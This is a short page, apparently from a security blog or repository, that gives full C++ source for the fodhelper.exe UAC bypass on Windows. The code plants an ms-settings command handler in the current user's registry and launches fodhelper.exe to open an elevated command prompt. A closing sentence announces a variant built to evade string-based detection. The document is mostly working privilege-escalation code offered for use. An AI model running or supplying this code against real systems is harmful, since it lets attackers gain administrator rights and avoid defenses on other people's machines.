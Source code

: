 An example of UAC bypass in C++ would be like this (code isn't mine):

```cpp
#include <windows.h>
#include <stdio.h>

int main() {
  HKEY hkey;
  DWORD d;

  const char* settings = "Software\\Classes\\ms-settings\\Shell\\Open\\command";
  const char* cmd = "cmd /c start C:\\Windows\\System32\\cmd.exe"; // default program
  const char* del = "";

  // attempt to open the key
  LSTATUS stat = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)settings, 0, NULL, 0, KEY_WRITE, NULL, &hkey, &d);
  printf(stat != ERROR_SUCCESS ? "failed to open or create reg key\n" : "successfully create reg key\n");

  // set the registry values
  stat = RegSetValueEx(hkey, "", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
  printf(stat != ERROR_SUCCESS ? "failed to set reg value\n" : "successfully set reg value\n");

  stat = RegSetValueEx(hkey, "DelegateExecute", 0, REG_SZ, (unsigned char*)del, strlen(del));
  printf(stat != ERROR_SUCCESS ? "failed to set reg value: DelegateExecute\n" : "successfully set reg value: DelegateExecute\n");

  // close the key handle
  RegCloseKey(hkey);

  // start the fodhelper.exe program
  SHELLEXECUTEINFO sei = { sizeof(sei) };
  sei.lpVerb = "runas";
  sei.lpFile = "C:\\Windows\\System32\\fodhelper.exe";
  sei.hwnd = NULL;
  sei.nShow = SW_NORMAL;

  if (!ShellExecuteEx(&sei)) {
    DWORD err = GetLastError();
    printf (err == ERROR_CANCELLED ? "the user refused to allow privileges elevation.\n" : "unexpected error! error code: %ld\n", err);
  } else {
    printf("successfully create process =^..^=\n");
  }

  return 0;
}
```

There's also a technique that uses another registry key as a redirector (***Programmatic Identifiers***) so in this way we would evade some basic string detection. Now we will code a common fodhelper.exe UAC bypass but with this technique.

